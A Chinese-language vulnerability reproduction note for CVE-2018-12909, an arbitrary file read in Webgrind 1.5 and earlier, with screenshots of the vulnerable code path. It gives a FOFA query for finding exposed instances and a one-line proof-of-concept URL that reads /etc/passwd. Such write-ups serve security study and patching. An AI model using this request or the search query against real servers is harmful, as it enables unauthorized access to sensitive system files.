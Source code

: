 # Webgrind fileviewer.phtml 任意文件读取漏洞 CVE-2018-12909

## 漏洞描述

Webgrind是一套PHP执行时间分析工具。其中Webgrind 1.5版本中存在安全漏洞，该漏洞源于程序依靠用户输入来显示文件。攻击者可以通过漏洞读取服务器敏感文件

## 漏洞影响

```
Webgrind <= 1.5
```

## FOFA

```
app="Webgrind"
```

## 漏洞复现

主页面

![image-20220829102424295](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291024336.png)

方法调用在 index.php 中

![image-20220829102436964](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291024049.png)

当参数为 fileviewer 时，将参数传递包含在文件 templates/fileviewer.phtml 中

![image-20220829102450812](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291024892.png)

参数 file 传入 `fileviewer.phtml` 通过函数 `highlight_file` 显示在页面中， 验证POC

```
/index.php?op=fileviewer&file=/etc/passwd
```

![image-20220829102503956](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291025034.png)